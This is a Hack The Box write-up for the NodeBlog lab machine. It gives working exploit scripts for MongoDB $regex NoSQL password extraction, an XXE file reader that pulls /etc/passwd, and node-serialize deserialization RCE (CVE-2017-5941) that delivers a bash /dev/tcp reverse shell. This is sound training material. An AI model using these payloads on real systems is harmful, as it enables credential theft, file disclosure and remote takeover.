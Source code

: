 # Hack The Box. Machines. NodeBlog

Machine write-up: https://7rocky.github.io/en/htb/nodeblog

### `nosqli.sh`

This script performs a NoSQLi injection attack to extract a clear-text password using `$regex` MongoDB operator.

First, it starts obtaining the length of the password:

```bash
url=10.10.11.139:5000/login
user=admin

function do_nosqli() {
	curl $url -H 'Content-Type: application/json' -sd $1 | grep Invalid
}

while true; do
	data='{"user":"'$user'","password":{"$regex":"^.{'$password_length'}$"}}'
	echo -ne "Password length: $password_length\r"

	if [ -z "$(do_nosqli "$data")" ]; then
		break
	fi

	password_length=$((password_length + 1))
done
```

Basically, we are using a regular expression like `^.{3}$` to match any character `3` times from start to end. So, we iterate this number until we find the perfect match (where `Invalid` is not shown). Manually, this is the idea:

```console
$ curl 10.10.11.139:5000/login -sd '{"user":"admin","password":{"$regex":"^.{24}$"}}' -H 'Content-Type: application/json' | grep Invalid
            Invalid Password

$ curl 10.10.11.139:5000/login -sd '{"user":"admin","password":{"$regex":"^.{25}$"}}' -H 'Content-Type: application/json' | grep Invalid
```

After that, we start dumping the characters of the password using `$regex` again:

```bash
for i in $(seq 1 $password_length); do
	echo -ne "Password: $password\r"

	for c in {A..Z} {a..z} {0..9}; do
		data='{"user":"'$user'","password":{"$regex":"^'$password$c'.{'$(($password_length - $i))'}$"}}'

		if [ -z "$(do_nosqli $data)" ]; then
			password+=$c
			break
		fi
	done
done
```

This time, we iterate a character at a certain position until it matches. For example: `^A.{24}$` through `^9.{24}$` until some character matches. Then, we continue with `^IA.{23}$` through `^I9.{23}$` until we get the full password.

The password is obtained if we run the script:

```console
$ bash nosqli.sh
Password length: 25
Password: IppsecSaysPleaseSubscribe
```

### `xxe.py`

This script allows us to read files from the server provided the absolute path to a file using an XML External Entity (XXE) injection.

The website parses an XML document to fill in the fields in a form to edit a blog post. In the uploaded XML document, we can add an entity to extract the contents of a file. For instance:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post>
  <title></title>
  <description>&xxe;</description>
  <markdown></markdown>
</post>
```

The contents of `/etc/passwd` will be printed in a `<textarea>` (read the [write-up](https://7rocky.github.io/en/htb/nodeblog) to see a proof of concept).

The `main` function does precisely this task:

```python
def main():
    if len(sys.argv) == 1:
        print(f'Usage: python3 {sys.argv[0]} <filename>')
        exit(1)

    filename = sys.argv[1]
    xml = send_xml(filename)

    try:
        print(html.unescape(re.findall(r'<textarea.*?>(.*?)</textarea>', xml, re.DOTALL)[0]))
    except IndexError:
        print('Not Found')
```

And `send_xml` only puts the name of the file in the entity and sends it as a file attachment called `test.xml`:

```python
def send_xml(filename):
    xml = f'''<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://{filename}"> ]>
<example>
  <title></title>
  <description>&xxe;</description>
  <markdown></markdown>
</example>
'''

    res = requests.post('http://10.10.11.139:5000/articles/xml', files={'file': ('test.xml', xml)})

    return res.text
```

Curiously, there is no need to be authenticated. If we run the script, we can get the contents of a file. For example:

```console
$ python3 xxe.py /etc/hosts
127.0.0.1 nodeblog localhost
127.0.1.1 ubuntu-template

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### `rce-serialize.js`

This script is used to obtain a reverse shell on the machine because it uses `unserialize` method from `node-serialize`. This Node.js module is known to have a Remote Code Execution (RCE) vulnerability (more information at [snyk.io](https://security.snyk.io/vuln/npm:node-serialize:20170208), CVE-2017-5941).

The idea is to add this payload so that `unserialize` executes it:

```js
const serialize = require('node-serialize')
const payload = `{"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('ls') }()"}`
serialize.unserialize(payload)
```

The `unserialize` method is called on a session cookie that is in JSON format (using URL encoding). So, the idea is to add the previous payload into the cookie and send it.

In the script, first we login in order to get a valid session cookie, and then we send the RCE payload inside the cookie:

```js
const [lhost, lport] = process.argv.slice(2, 4)

const main = async () => {
  if (!lhost || !lport) {
    console.log('[!] Usage: node serialize-rce.js <lhost> <lport>')
    process.exit()
  }

  const cookie = await login()
  console.log('[+] Login successful')

  await rce(cookie, `echo ${reverseShell()} | base64 -d | bash`)
  console.log('[+] RCE completed')
}

main()
```

The use of `reverseShell` is to use a command that executes a reverse shell and encoded in Base64:

```js
const reverseShell = () =>
  Buffer.from(`bash  -i >& /dev/tcp/${lhost}/${lport} 0>&1`).toString('base64')
```

The `login` function only authenticates with credentials obtained before and returns the session cookie:

```js
const axios = require('axios')

const user = 'admin'
const password = 'IppsecSaysPleaseSubscribe'
const baseUrl = 'http://10.10.11.139:5000'

const login = async () => {
  const res = await axios.post(`${baseUrl}/login`, { user, password })

  return res.headers['set-cookie'][0]
}
```

Finally, the `rce` function is this one:

```js
const rce = async (cookie, cmd) => {
  const paramIndex = cookie.indexOf(';')

  cookie =
    cookie.substring(0, paramIndex - 3) +
    encodeURIComponent(
      `,"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('${cmd}') }()"}`
    ) +
    cookie.substring(paramIndex)

  await axios.get(baseUrl, { headers: { cookie } })
}
```

Basically, the cookie return from `login` is something like this:

```
auth=%7B%22user%22%3A%22admin%,%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D; Max-Age=900; Path=/; HttpOnly
```

Hence, the function gets the index of the first semi-colon (`;`), in order to add the RCE payload before `%7D` (which is `}` in URL encoding). All the cookie must have a valid URL encoding. Finally, we send it.

Using `nc` on another terminal, we get access to the machine:

```console
$ npm install

$ node serialize-rce.js 10.10.17.44 4444
[+] Login successful
[+] RCE completed
```

```console
$ nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.139.
Ncat: Connection from 10.10.11.139:55018.
bash: cannot set terminal process group (861): Inappropriate ioctl for device
bash: no job control in this shell
admin@nodeblog:/opt/blog$
```


